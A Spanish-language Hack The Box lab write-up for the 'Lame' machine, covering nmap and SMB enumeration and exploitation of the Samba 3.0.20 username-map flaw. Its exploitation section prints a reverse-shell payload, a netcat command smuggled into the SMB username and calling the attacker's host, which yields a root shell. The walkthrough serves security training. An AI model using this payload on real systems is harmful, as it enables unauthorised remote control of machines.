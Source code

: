 ```yaml
---
title: Lame
date: '2023-07-07'
lastmod: '2023-08-05'
tags: ['labs', 'HackTheBox']
draft: true
summary: 'Lame es una máquina de nivel principiante que solo requiere un exploit para obtener acceso root. Fue la primera máquina publicada en Hack The Box y a menudo es la primera máquina para nuevos usuarios.'
images: ['/static/images/htb/lame/Lame.png']
---
```


![Portada](/static/images/htb/Lame/Lame.png)

# [MIRA EL VIDEO TUTORIAL](https://www.youtube.com/watch?v=qDNVy6n9Jds)

<TOCInline toc={props.toc} exclude="MIRA EL VIDEO TUTORIAL" />

## Reconocimiento

### Ping

Primero, verificamos que estamos en la misma red que la máquina víctima enviando un paquete de datos a la IP 10.10.10.3 usando el comando ping.

```js
  ping -c 4 10.10.10.3
```

- `-c` : Número de paquetes de solicitud de eco ICMP (Internet Control Message Protocol) que se enviarán..

![Ping](/static/images/htb/Lame/ping.png)

### Nmap

Luego, realizamos el escaneo de puertos.

```js
  nmap -p- --open 10.10.10.3 -Pn
```

- `-p-` : Escanea todos los puertos.
- `--open` : Solo va a reportar los puertos que encuentre abiertos.
- `-Pn` : Realiza el escaneo incluso si el dispositivo no responde a los pings.

![Nmap1](/static/images/htb/Lame/nmap1.png)

Al obtener la lista de los puertos abiertos en la maquina victima,realizamos otro escaneo pero solo a los que
nmap reporto como abiertos incluyendo las siguientes flags:

- `-sC` : Activa el escaneo utilizando scripts de enumeración y detección de servicios predeterminados. Los scripts se ejecutan contra los puertos abiertos para obtener información adicional sobre los servicios en ejecución.
- `-sV` : Realiza una detección de versión de los servicios que se encuentran en los puertos abiertos. Nmap intenta determinar la versión y el tipo de servicio utilizando diversos métodos, como el envío de solicitudes específicas y la comparación de las respuestas recibidas.
- `-p` : Especifica los puertos que se escanearán. En este caso, se están escaneando los puertos 21 (FTP), 22 (SSH), 139 (NetBIOS/SMB), 445 (SMB) y 3632 (distccd).
- `-Pn` : Indica a Nmap que realice el escaneo incluso si el dispositivo no responde a los pings. Esto puede ser útil cuando el dispositivo tiene configuraciones de firewall que bloquean los paquetes ICMP de solicitud de eco.

```js
  nmap -sC -sV -p21,22,19,445,62 10.10.10.3 -Pn
```

![Nmap2](/static/images/htb/Lame/nmap2.png)

### Puertos abiertos

| Puertos abiertos | Servicio    | Version              |
| ---------------- | ----------- | -------------------- |
| **_21/tcp_**     | ftp         | vsftpd 2.3.4         |
| **_22/tcp_**     | SSH         | Open SSH 4.7p1       |
| **_139/tcp_**    | netbios-ssn | Samba smbd 3.x - 4.x |
| **_445/tcp_**    | netbios-ssn | Samba smbd 3.0.20    |
| **_3632/tcp_**   | distccd     | distccd v1           |

## Enumeracion

### Puerto 21 - FTP

El puerto 21 se utiliza comúnmente para el protocolo FTP (File Transfer Protocol), que es un protocolo estándar para la transferencia de archivos entre sistemas informáticos en una red. El protocolo FTP permite a los usuarios transferir archivos de un equipo a otro a través de una red. El puerto 21 se utiliza para establecer la conexión de control entre el cliente FTP y el servidor FTP. En esta conexión, el cliente envía comandos al servidor para solicitar operaciones como la autenticación del usuario, listar archivos en el servidor, crear directorios, descargar o subir archivos, entre otros. Es importante tener en cuenta que el protocolo FTP es un protocolo no seguro, ya que la información se transmite en texto plano, incluyendo las credenciales de inicio de sesión.

Al realizar una busqueda por google, encontramos que la `version 2.3.4` tiene una vulnerabilidad [CVE 2011-2523](https://www.exploit-db.com/exploits/49757).

![Exploit](/static/images/htb/Lame/exploit1.png)

Como se ve en el script, al aplicar el “:)” en el nombre del usuario y poner una contraseña cualquiera, se abriria el puerto 6200.
Pero, al tratar de realizar estos pasos y luego confirnar con nmap si el puerto 62000 esta abierto, nos reporta que esta filtrado. Por ende, no es vulnerable a esta accion.

En el reconocimiento con nmap, hallamos que el inicio de sesion anonimo estaba disponible, pero al ingresar vemos que el directorio esta vacio.

![Ftp](/static/images/htb/Lame/ftp.png)

### Puerto 22 - SSH

Como no tengo credenciales validas, continuo al siguiente puerto abierto.

### Puertos 139 - 445 - Samba (SMB)

SMB es un protocolo de red utilizado para compartir archivos, impresoras y otros recursos entre computadoras en una red. Se encuentra comúnmente en sistemas operativos basados en Unix y Linux, y se utiliza para establecer una conexión con un servidor SMB, explorar recursos compartidos, listar archivos y directorios, transferir archivos entre el cliente y el servidor, y ejecutar comandos remotos en el servidor SMB.

Para acceder a este servidor utilizamos `smbclient`. Al usar smbclient, puedes autenticarte en un servidor SMB proporcionando un nombre de usuario y una contraseña válidos. Una vez que hayas establecido una conexión con el servidor, puedes utilizar comandos similares a los de una interfaz de línea de comandos para interactuar con los recursos compartidos, como copiar archivos, eliminar archivos, crear directorios, obtener información sobre archivos y más.

```js
  smbclient -L 10.10.10.3
```

El comando "smbclient -L 10.10.10.3" se utiliza para enumerar los recursos compartidos disponibles en un servidor SMB específico.

Cuando ejecutas este comando, smbclient establece una conexión con el servidor SMB y solicita la lista de recursos compartidos disponibles en ese servidor.
Esto puede incluir carpetas compartidas, impresoras compartidas u otros recursos que estén configurados para compartir a través del protocolo SMB en el servidor.

![Ftp](/static/images/htb/Lame/smb1.png)

Con `smbmap` vemos los permisos en los dispositivos compartidos.

```js
  smbmap -H 10.10.10.3
```

![Ftp](/static/images/htb/Lame/smb2.png)

En la carpeta `tmp` tenemos permisos de lectura y escritura.

Vamos a buscar en searchsploit si esta version de smb tiene alguna vulnerabilidad conocida.

![Exploit](/static/images/htb/Lame/exploit.png)

Con el comando `searchsploit -x 16320.rn` podemos ver el codigo y entender que ocurre por detras o en google podemos verlo en [Exploit Database](https://www.exploit-db.com/) como [CVE 2007-2447](https://www.exploit-db.com/exploits/16320)

La parte mas importante del script esta aqui, al ingresar el nombre de usuario y pasarle el comando nohup ,seguido de un payload, le vamos a ingresar una reverse shell para que la maquina victima se conecte a la nuestra.

![Exploit](/static/images/htb/Lame/exploit2.png)

> En Linux, el comando nohup se utiliza para ejecutar un programa o script de manera persistente, incluso después de cerrar la terminal o sesión de inicio de sesión.

## Explotacion

En nuestra maquina local vamos a ejecutar el comando `nc -nlvp 4646`.

Esto crea un listener en el puerto 4646 de la máquina local, lo que significa que Netcat estará a la espera de conexiones entrantes en ese puerto. Esto es útil para establecer una conexión de red entre dos máquinas y permitir que una de ellas actúe como servidor o receptor de datos en el puerto especificado.

- `-n`: Indica a Netcat que no realice la resolución inversa de las direcciones IP o nombres de host.
- `-l`: Activa el modo de escucha, permitiendo que Netcat escuche conexiones entrantes en lugar de iniciar una conexión saliente.
- `-v`: Habilita el modo verboose (detallado) y muestra información adicional sobre las conexiones entrantes y salientes.
- `-p 4646`: Especifica el número de puerto en el que Netcat debe escuchar las conexiones entrantes. En este caso, el puerto elegido es el 4646.

Por otro lado, cuando nos conectemos por ftp a la maquina victima y estemos dentro, usaremos el comando logon para autenticarnos y aprovecharemos de la vulnerabilidad antes mencionada pasndole como usuario:

```js
'/=`nohup nc -nv 10.10.14.10 4646 -e /bin/sh`'
```

El comando `nc -nv 10.10.14.10 4646 -e /bin/sh` utiliza la herramienta Netcat (nc) para establecer una conexión de red con la dirección IP `10.10.14.10` en el puerto 4646 y ejecutar el shell `(/bin/sh)` en el sistema remoto:

- `-n`: Esta opción indica a Netcat que no realice la resolución inversa de las direcciones IP o nombres de host.
- `-v`: Esta opción habilita el modo verbose (detallado) y muestra información adicional sobre las conexiones entrantes y salientes.
- `10.10.14.10`: Es la dirección IP del sistema remoto al que se desea conectarse.
- `4646`: Es el número de puerto en el que se establecerá la conexión.
- `-e /bin/sh`: Especifica el comando que se ejecutará en el sistema remoto una vez que se establezca la conexión. En este caso, se ejecutará el shell ("/bin/sh"), lo que nos va a proporcionar una interfaz de línea de comandos en el sistema remoto.

![Explotacion](/static/images/htb/Lame/explotacion.png)

Una vez dentro, vemos que somos el usuario privilegiado root y vamos por las banderas user.txt y root.txt.
![Fin](/static/images/htb/Lame/fin.png)
